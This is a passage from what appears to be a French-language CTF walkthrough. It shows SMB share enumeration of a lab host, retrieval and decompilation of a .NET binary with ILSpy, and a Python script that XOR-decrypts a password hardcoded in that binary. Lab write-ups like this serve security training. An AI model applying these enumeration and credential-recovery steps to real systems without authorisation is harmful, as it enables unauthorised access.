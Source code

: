 ```bash
smbclient -L \\\\10.129.178.26\\
```

Partage accessible :

```
support-tools
```

Téléchargement du fichier suspect :

```bash
smbclient \\\\10.129.178.26\\support-tools
get UserInfo.exe.zip
exit
unzip UserInfo.exe.zip
file UserInfo.exe
```

Application .NET identifiée.


## 🧠 Phase 3 — Reverse Engineering

### Décompilation avec ILSpy

```bash
wget https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip
unzip Linux.x64.Release.zip
cd artifacts/linux-x64
./ILSpy
```

Code source décompilé révèle :

```csharp
private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
private static byte[] key = Encoding.ASCII.GetBytes("armando");
```

### Déchiffrement Python

```python
import base64
from itertools import cycle

enc_password = base64.b64decode("0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E")
key = b"armando"

res = ''
for e, k in zip(enc_password, cycle(key)):
    res += chr(e ^ k ^ 223)

print(res)
```
